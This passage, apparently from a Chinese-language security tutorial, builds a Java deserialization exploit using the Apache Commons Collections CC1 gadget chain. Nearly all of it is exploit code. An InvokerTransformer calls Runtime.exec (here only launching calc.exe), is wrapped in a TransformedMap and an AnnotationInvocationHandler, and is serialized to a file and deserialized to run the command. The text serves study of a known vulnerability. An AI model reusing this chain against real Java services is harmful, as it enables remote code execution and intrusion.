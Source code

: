 接下来就可以构造我们理想的`exp`​

```java
package org.example;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import javax.xml.ws.spi.Invoker;
import java.io.*;
import java.lang.Runtime;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;


public class Main {
    public static void main(String[] args) throws Exception{
//        System.out.println("Hello world!");
    Runtime runtime = Runtime.getRuntime();
//    Class c = Runtime.class;
//    Method method = c.getDeclaredMethod("exec", String.class);
//    method.setAccessible(true);
//    method.invoke(runtime,"calc");
//    通过反射实现RCE
//    通过InvokerTransformer类来弹计算器
    InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"});
        HashMap<Object,Object> hashMap = new HashMap<>();
//        Map decorateMap = TransformedMap.decorate(hashMap, null, invokerTransformer);
//        Class<TransformedMap> transformedMapClass = TransformedMap.class;
//        Method checkSetValueMethod = transformedMapClass.getDeclaredMethod("checkSetValue", Object.class);
//        checkSetValueMethod.setAccessible(true);
//        checkSetValueMethod.invoke(decorateMap, runtime);
        hashMap.put("key", "value");
        Map<Object, Object> decorateMap = TransformedMap.decorate(hashMap, null, invokerTransformer);
//        遍历MAP
//        for (Map.Entry entry: decorateMap.entrySet()){
//            entry.setValue(runtime);
//        }
        Class cc = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cCon = cc.getDeclaredConstructor(Class.class, Map.class);
        cCon.setAccessible(true);
        Object o = cCon.newInstance(Override.class, decorateMap);
        serialize(o);
        unserialize("p.bin");

    }
    public static void serialize(Object obj) throws IOException{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("p.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```
